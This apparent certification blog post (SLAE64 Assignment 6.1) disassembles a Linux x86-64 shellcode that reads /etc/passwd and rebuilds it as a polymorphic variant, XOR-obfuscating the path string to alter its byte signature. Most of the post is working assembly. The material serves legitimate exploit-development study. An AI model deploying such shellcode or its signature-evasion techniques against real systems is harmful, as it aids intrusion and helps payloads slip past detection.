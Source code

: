 Title: SLAE64 - Assignment 6.1
Date: 2022-07-01T19:45:25.000Z

<h2 id="disclaimer">Disclaimer</h2><p>This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert Certification:</p><p><a href="https://www.pentesteracademy.com/course?id=7">https://www.pentesteracademy.com/course?id=7</a></p><p>Student ID: PA-30398</p><h2 id="foreword">Foreword</h2><p>I chose the following shellcode samples:</p><ol><li><a href="https://shell-storm.org/shellcode/files/shellcode-878.php">Read /etc/passwd - 82 bytes</a></li><li><a href="https://shell-storm.org/shellcode/files/shellcode-896.php">Add map in /etc/hosts file - 110 bytes</a></li><li><a href="https://shell-storm.org/shellcode/files/shellcode-867.php">Reads data from /etc/passwd to /tmp/outfile - 118 bytes</a></li></ol><p>In this part I'll create a polymorphic version of the first shellcode.</p><h2 id="source-code">Source Code</h2><p>The files for this part of the assignment are the following:</p><ul><li><a href="https://github.com/rbctee/SlaeExam/blob/main/slae64/assignment/6/1/original.nasm">original.asm</a>, which contains the original shellcode</li><li><a href="https://github.com/rbctee/SlaeExam/blob/main/slae64/assignment/6/1/polymorphic.nasm">polymorphic.nasm</a>, containing the polymorphic version of the shellcode</li></ul><h2 id="analysis">Analysis</h2><p>As mentioned previously, the first shellcode consists of reading the file <code>/etc/passwd</code>. At 82 bytes, it is a simple shellcode, around the length of a simple reverse shell.</p><p>Below is a snippet of code containing the assembly instructions along with some comments describing the logic in broad terms.</p><figure class="kg-card kg-code-card"><pre><code class="language-nasm">; JMP-CALL-POP technique to retrieve the address of
; "/etc/passwd", stored into RDI
; 1st argument of open: pointer to the file to open
0x00000000      eb3f           jmp 0x41
0x00000002      5f             pop rdi

; XOR the byte 0x41 following the string "/etc/passwd"
; this way it turns it into a string terminator (NULL byte)
0x00000003      80770b41       xor byte [rdi + 0xb], 0x41

; syscall open
0x00000007      4831c0         xor rax, rax
0x0000000a      0402           add al, 2

; 2nd argument of read: O_RDONLY (open file in read mode)
0x0000000c      4831f6         xor rsi, rsi

; call syscall open
0x0000000f      0f05           syscall

; create a buffer of 0xfff bytes on the stack
0x00000011      6681ecff0f     sub sp, 0xfff

; 2nd argument of read: pointer to the memory location
; where to store the bytes read
0x00000016      488d3424       lea rsi, [rsp]

; 1st argument of read: file descriptor from which to read
; the bytes
0x0000001a      4889c7         mov rdi, rax

; 3rd argument of read: number of bytes to read
0x0000001d      4831d2         xor rdx, rdx
0x00000020      66baff0f       mov dx, 0xfff

; call syscall read
0x00000024      4831c0         xor rax, rax
0x00000027      0f05           syscall

; 1st argument of write: file descriptor where to write
; the bytes
0x00000029      4831ff         xor rdi, rdi
0x0000002c      4080c701       add dil, 1

; 3rd argument of write: number of bytes to write
0x00000030      4889c2         mov rdx, rax

; call syscall write
0x00000033      4831c0         xor rax, rax
0x00000036      0401           add al, 1
0x00000038      0f05           syscall

; call exit syscall
0x0000003a      4831c0         xor rax, rax
0x0000003d      043c           add al, 0x3c
0x0000003f      0f05           syscall

0x00000041      e8bcffffff     call 2

; string "/etc/passwd" followed by the byte 0x41
0x00000046      2f             invalid
0x00000047      657463         je 0xad
0x0000004a      2f             invalid
0x0000004b      7061           jo 0xae
0x0000004d      7373           jae 0xc2
0x0000004f      7764           ja 0xb5
0x00000051      41             invalid</code></pre><figcaption>First analysis of the shellcode</figcaption></figure><p>Overall, the shellcode can be divided in these steps:</p><ol><li>using the <code>JMP-CALL-POP</code> technique to obtain the address of the string <code>/etc/passwd</code></li><li>invoking the syscall <code>open</code> to open the previous file in read mode</li><li>invoking the syscall <code>read</code> to read 4095 bytes, and saving them on the stack</li><li>invoking the syscall <code>write</code> to write them to the <em>standard output</em></li><li>invoking the syscall <code>exit</code> to terminate the execution of the shellcode</li></ol><h2 id="polymorphism">Polymorphism</h2><p>For simplicity I chose to divide the shellcode into the following assembly routines:</p><ul><li><em>OpenFile</em></li><li><em>ReadFile</em></li><li><em>WriteOutput</em></li><li><em>Exit</em></li></ul><h3 id="openfile">OpenFile</h3><p>The first routine simply opens the file <code>/etc/passwd</code>.</p><figure class="kg-card kg-code-card"><pre><code class="language-nasm">global _start

section .text

_start:

OpenFile:

    xor eax, eax
    push rax

    push 0x64777373

    mov rbx, 0xcdbdc152350e17cb
    mov rcx, 0xaccdee31416b38e4
    xor rbx, rcx

    push rbx

    mov rdi, rsp
  
    add al, 2

    xor esi, esi
    syscall</code></pre><figcaption>Opening <code>/etc/passwd</code></figcaption></figure><p>Instead of the <code>JMP-CALL-POP</code> technique, I decided to push the string to the stack and retrieve its address through the <code>RSP</code> register.</p><p>This allowed me to decrease the number of bytes used by the shellcode, making it smaller.</p><p>Moreover, thanks to the decrement in size, I could use some of the spare bytes to obfuscate part of the strings, e.g. <code>/etc/passwd</code>.</p><p>In this case, the only clear-text part is the substring <code>sswd</code>. If you can afford some other bytes, you could probably obfuscate that one too.</p><h3 id="readfile">ReadFile</h3><p>Since the routing for reading the bytes from <code>/etc/passwd</code> is quite short, I simply changed some of the instructions (to alter the resulting bytes) and their order.</p><figure class="kg-card kg-code-card"><pre><code class="language-nasm">ReadFile:

    sub sp, 0xfff
    mov rsi, rsp

    push rax
    pop rdi

    xor eax, eax

    cdq
    mov dx, 0xfff

    syscall</code></pre><figcaption>Reading <code>/etc/passwd</code></figcaption></figure><p>In this case, I replaced the <code>LEA</code> (Load Effective Address) instruction with <code>MOV</code>, and replaced the next <code>MOV</code> with the <code>PUSH-POP</code> technique, which should occupy fewer bytes depending on the register used.</p><p>There's also the instruction <code>CDQ</code> (Convert Double to Quad), which allows me sign-extend <code>RAX</code> into <code>RDX</code>, thus clearing the latter if the former is positive.</p><h3 id="writeoutput">WriteOutput</h3><p>In the original shellcode, the part of the code responsible for writing the contents of <code>/etc/passwd</code> to the standard output can be shrinked to its half.</p><p>In fact, it clears the <code>RDI</code> register and increases it by 1, while doing the same operations for the <code>RAX</code> register, when you could simply copy <code>RDI</code> into <code>RAX</code>.</p><figure class="kg-card kg-code-card"><pre><code class="language-nasm">WriteOutput:
  
    ; call sys_write
    xor edi, edi
    inc edi
    mov rax, rdi

    syscall</code></pre><figcaption>Writing the contents of <code>/etc/passwd</code> to <code>stdout</code></figcaption></figure><h3 id="exit">Exit</h3><p>The last routine terminates the execution of the shellcode, exiting gracefully.</p><figure class="kg-card kg-code-card"><pre><code class="language-nasm">Exit:

    ; call sys_exit
    push rdi
    pop rax
    add al, 59
    syscall</code></pre><figcaption>Graceful exit</figcaption></figure><p>If you wanted to make the shellcode even smaller, you could remove this part, since it's not really necessary.</p>